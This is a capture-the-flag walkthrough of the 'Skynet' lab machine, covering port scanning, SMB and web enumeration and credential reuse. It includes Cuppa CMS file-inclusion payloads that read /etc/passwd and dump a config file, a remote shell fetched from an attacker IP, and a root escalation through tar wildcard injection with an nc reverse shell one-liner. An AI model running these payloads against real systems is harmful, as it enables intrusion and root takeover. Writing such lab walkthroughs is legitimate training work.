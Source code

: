 > Skynet

# Nmap/Rustscan

rustscan -a $IP --ulimit=5000 --batch-size=4500 -- -sC -sV -Pn -A | tee rustscan.log


```
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        syn-ack Dovecot pop3d
|_pop3-capabilities: TOP CAPA UIDL PIPELINING SASL RESP-CODES AUTH-RESP-CODE
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack Dovecot imapd
|_imap-capabilities: listed IMAP4rev1 ID more LOGINDISABLEDA0001 LITERAL+ post-login have capabilities SASL-IR LOGIN-REFERRALS ENABLE OK Pre-login IDLE
445/tcp open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Host script results:
|_clock-skew: mean: 1h40m08s, deviation: 2h53m13s, median: 8s
| nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SKYNET<00>           Flags: <unique><active>
|   SKYNET<03>           Flags: <unique><active>
|   SKYNET<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 65062/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 65283/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50068/udp): CLEAN (Failed to receive data)
|   Check 4 (port 9563/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-04-28T10:41:10-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-28T15:41:10
|_  start_date: N/A
```

# Enumeration

## SMB

smbclient -L //$IP////

```
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
```

We can't access milesdyson share but we can access `anonymous`.

smbclient \\\\$IP\\anonymous

```
attention.txt
logs (Dir) => Contains 3 files log1.txt, log2.txt. log3.txt
```

Looks like `log1.txt` has passwords. Maybe the 1'st try is the password `cyborg007haloterminator` for mile's email password. Username: `milesdyson`

# Gobuster

gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial

```
/admin                (Status: 301) [Size: 312] [--> http://10.10.19.147/admin/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.19.147/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.19.147/js/]
/config               (Status: 301) [Size: 313] [--> http://10.10.19.147/config/]
/ai                   (Status: 301) [Size: 309] [--> http://10.10.19.147/ai/]
/squirrelmail 
```

We can login to squirrelmail using the same credentials. And we got some mails and one of them is SMB password.
**Password: `)s{A&2Z=F^n_E.B`**

smbclient \\\\$IP\\milesdyson -U milesdyson => We can find `important.txt` 

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

And from the hint we are given we have to do another directory bruteforcing.

# Gobuster

gobuster dir -u http://$IP//45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/secret

```
/administrator        (Status: 301) [Size: 337] [--> http://10.10.19.147/45kra24zxs28v3yd/administrator/]
```

It is cuppa cms and we have a single exploit in searchsploit for RFI. 

# POC

Accessing `http://10.10.19.147/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` we have `/etc/passwd`.

# POC - Accessing Configuration.php

http://10.10.19.147/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php

On decoding we have the file.

```
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "password123";
		public $table_prefix = "cu_";
		public $administrator_template = "default";
		public $list_limit = 25;
		public $token = "OBqIPqlFWf3X";
		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
		public $upload_default_path = "media/uploadsFiles";
		public $maximum_file_size = "5242880";
		public $secure_login = 0;
		public $secure_login_value = "";
		public $secure_login_redirect = "";
	} 
?>
```

We can pass our shell and access them in `http://10.10.19.147/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.107.21:8000/shell.php`. We have our shell as `www-data`.

# user.txt

```
7ce5c2109a40f958099283600a9ae807
```

# Priv-Esc

cat /etc/crontab

```
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
```

## backup.sh

```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Oooh tar has wildcards and we can exploit this!!

# Steps

1. echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.107.21 4444 >/tmp/f" > shell.sh
2. touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
3. touch "/var/www/html/--checkpoint=1"

We are in as root!

# root.txt

```
3f0372db24753accc7179a282cd6a949
```